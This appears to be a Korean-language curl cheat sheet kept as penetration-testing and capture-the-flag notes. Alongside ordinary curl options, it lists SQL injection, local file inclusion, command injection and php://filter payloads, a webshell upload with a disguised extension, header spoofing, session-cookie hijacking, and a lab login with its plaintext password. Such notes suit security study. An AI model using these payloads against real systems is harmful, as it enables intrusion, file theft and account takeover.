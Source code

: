 # curl - HTTP 요청 도구

## 기본 요청

```bash
curl http://target.com                # 기본 GET 요청 (출력: 터미널)
curl -o file.html http://target.com   # 파일로 저장
curl -s http://target.com             # 진행 바 숨김
curl -L http://target.com             # 리다이렉트 따라가기
```

## 디버깅/분석

```bash
curl -v http://target.com             # 모든 요청/응답 상세 표시 (필수)
curl -I http://target.com             # 헤더만 요청 (HEAD 메소드)
curl -i http://target.com             # 응답 본문과 헤더 함께 표시

# 리디렉션으로 파일 저장 후 base64 디코딩
curl "http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/read=convert.base64-encode/resource=../../hello.php" > hello.b64
base64 -d hello.b64 > hello.php
```

## 인증

```bash
curl -u user:pass http://target.com   # 기본 인증
curl -H "Authorization: Bearer eyJh..." http://target.com  # JWT/토큰

# 쿠키 관련
curl -c cookies.txt http://target.com        # 쿠키 저장
curl -b cookies.txt http://target.com        # 저장된 쿠키 사용
curl -b cookies.txt -c cookies.txt http://target.com  # 세션 유지
```

## 데이터 전송

```bash
# POST 요청 (폼)
curl -X POST -d "user=admin&pass=secret" http://target.com/login.php

# 파일 업로드
curl -F "file=@shell.php" -F "description=profile" http://target.com/upload.php

# JSON 전송
curl -X POST -H "Content-Type: application/json" \
    -d '{"username":"admin","password":"s3cr3t"}' \
    http://target.com/api/login
```

## 헤더 조작

```bash
# 사용자 에이전트 변경
curl -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" http://target.com

# IP 스푸핑 시도
curl -H "X-Forwarded-For: 127.0.0.1" http://target.com
curl -H "X-Real-IP: 127.0.0.1" http://target.com
```

## 보안/프록시

```bash
curl -k https://target.com                       # SSL 인증서 검증 무시
curl -x http://127.0.0.1:8080 http://target.com  # HTTP 프록시 (Burp)
curl --socks5 127.0.0.1:9050 http://target.com   # SOCKS5 프록시 (Tor)
```

## 취약점 테스트

```bash
# SQL 인젝션
curl "http://target.com/search.php?id=1 OR 1=1--"

# LFI
curl "http://target.com/page.php?file=../../../etc/passwd"

# 명령어 인젝션
curl "http://target.com/ping.php?host=127.0.0.1;id"
```

# 파일 업로드 취약점 (확장자 우회)

curl -X POST -F "file=@webshell.php;filename=image.jpg;type=image/jpeg" http://target.com/upload
curl -F "file=@/경로/파일명" http://타겟IP/upload.php
`@`는 curl에서 파일 업로드할 때 로컬 파일임을 나타내는 표시입니다. `-F` 옵션과 함께 사용합니다.

````

### 인증 우회 및 세션 작업

```bash
# CSRF 토큰 추출 후 사용
TOKEN=$(curl -s -c cookies.txt http://target.com/form | grep -o 'csrf_token" value="[^"]*' | cut -d'"' -f3)
curl -b cookies.txt -d "csrf_token=$TOKEN&username=admin&password=password" http://target.com/login

# 쿠키 조작으로 세션 하이재킹
curl -b "sessionid=STOLEN_SESSION_VALUE" http://target.com/admin

# HTTP 기본 인증 테스트
curl -u admin:password http://target.com/admin
````

### 유용한 도구 조합

```bash
# URL 인코딩 (Python 활용)
curl "http://target.com/search?q=$(python3 -c "import urllib.parse; print(urllib.parse.quote('<script>alert(1)</script>'))")"

# Base64 인코딩 헤더 사용 (Basic Auth)
curl -H "Authorization: Basic $(echo -n 'admin:password' | base64)" http://target.com

# 404 오류 페이지 숨기기
curl -f http://target.com/admin || echo "페이지 없음"

# 응답에서 특정 정보 필터링
curl -s http://target.com | grep "flag"
```

### 실전 로그인 및 세션 유지 예시

```bash
# 로그인하여 세션 쿠키 저장
curl -c cookies.txt -X POST http://lookup.thm/login.php -d 'username=admin&password=password123' -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8'

# 저장된 쿠키로 인증된 페이지 접근
curl -b cookies.txt http://lookup.thm/dashboard.php
```

# 로그인 쿠키 저장

curl -c cookies.txt -X POST http://grafana.planning.htb/login -H "Content-Type: application/json" -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

┌──(root㉿docker-desktop)-[/]
└─# curl -c cookies.txt -X POST http://grafana.planning.htb/login \
 -H "Content-Type: application/json" \
 -d '{"user":"admin","password":"0D5oT70Fq13EvB5r"}'

# Cookie File -> Netscape format 분석

grafana.planning.htb FALSE / FALSE 1755096838 grafana_session_expiry 1752505433
#HttpOnly_grafana.planning.htb FALSE / FALSE 1755096838 grafana_session 508ccc52bfc97942574a1cb84a726eb1

| 항목      | 설명                                                           |
| --------- | -------------------------------------------------------------- |
| 도메인    | `grafana.planning.htb` – 쿠키가 유효한 호스트                  |
| `FALSE`   | 이 쿠키가 서브도메인에 적용되는지 여부 (FALSE = 해당 도메인만) |
| 경로      | `/` – 쿠키가 유효한 경로                                       |
| Secure    | `FALSE` – HTTPS에서만 전송되는지 여부                          |
| 만료 시간 | `1755096838` (Unix timestamp) – 쿠키 만료 시각                 |
| 이름      | `grafana_session_expiry` 또는 `grafana_session`                |
| 값        | 예: `508ccc52bfc97942574a1cb84a726eb1`                         |
